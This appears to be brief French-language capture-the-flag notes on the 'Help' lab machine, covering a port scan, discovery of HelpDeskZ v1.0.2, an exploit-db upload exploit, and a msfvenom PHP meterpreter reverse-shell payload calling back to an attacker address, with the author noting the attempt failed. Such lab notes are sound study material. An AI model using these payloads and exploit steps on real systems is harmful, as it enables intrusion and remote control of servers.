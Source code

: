 # Help : 10.10.10.121


HelpDeskZ = v1.0.2 permet d'uploader un fichier *.php
On le retrouve avec un chemin dépendant de l'heure de dépos.


$ nmap -sS -sV -oN help.txt -p- 10.10.10.121
=> 80

$ Dirbuster found a directory ‘/support’ on 80
http://10.10.10.121/support/
Webinterface to create support ticket
HelpDeskZ = v1.0.2
CVE :  https://www.exploit-db.com/exploits/40300


Generate php payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=6000 R -f raw  > phpshell.php

$ date
$ curl -i http://10.10.10.121
Date: xxxx

On determine le delta de date

$ python 40300.py 'http://10.10.10.121/support/uploads/tickets' php-reverse-shell.php


Pas reussi à le faire fonctionner...